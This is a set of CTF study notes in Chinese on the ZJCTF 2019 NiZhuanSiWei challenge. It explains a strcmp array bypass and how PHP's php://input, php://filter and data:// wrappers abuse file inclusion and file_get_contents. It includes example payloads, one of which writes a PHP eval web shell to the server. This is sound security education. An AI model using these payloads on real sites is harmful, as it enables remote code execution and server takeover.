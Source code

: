 > strcmp函数漏洞：strcmp比较的是字符串类型，如果强行传入其他类型参数，会出错，出错后返回值NULL，**NULL==0**，正是利用这点进行绕过

```
money[]可以绕开strcmp函数
```

## [ZJCTF 2019]NiZhuanSiWei

#### 考点：flle_get_contents() 、伪协议字符比较、反序列化echo tostring

#### php://

- **条件**：
  - `allow_url_fopen`:off/on
  - `allow_url_include` :仅`php://input php://stdin php://memory php://temp `需要on

php://filter用于读取源码，php://input用于执行php代码。

| 协议         | 作用                                                         |
| ------------ | ------------------------------------------------------------ |
| php://input  | 可以访问请求的原始数据的只读流，在POST请求中访问POST的`data`部分，==在`enctype="multipart/form-data"` 的时候`php://input `是无效的。== |
| php://filter | (>=5.0.0)一种元封装器，设计用于数据流打开时的筛选过滤应用。对于一体式`（all-in-one）`的文件函数非常有用，**类似 `readfile()`、`file()` 和 `file_get_contents()`**，在数据流内容读取之前没有机会应用其他过滤器。 |

```
示例：
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>

写入一句话：
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

#### date://

- **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

  - **作用**：自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
  - 用法：

  ```
  data://text/plain,
  data://text/plain;base64,
  http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
  ```

#### flle_get_contents() 

flle_get_contents() 函数,而这个函数是可以绕过的
绕过方式有多种:
●使用php://input伪协议绕过
	①将要GET的参数?xxx=php://input
	②用post方法传入想要file_get_contents() 函数返回的值
●用data://伪协议绕过
将url改为: ?xxx=data://text/plain;base64,想要 file_get_contents() 函数返回的值的base64编码
或者将url改为: ?xxx=data:text/plain,(url编码的内容)
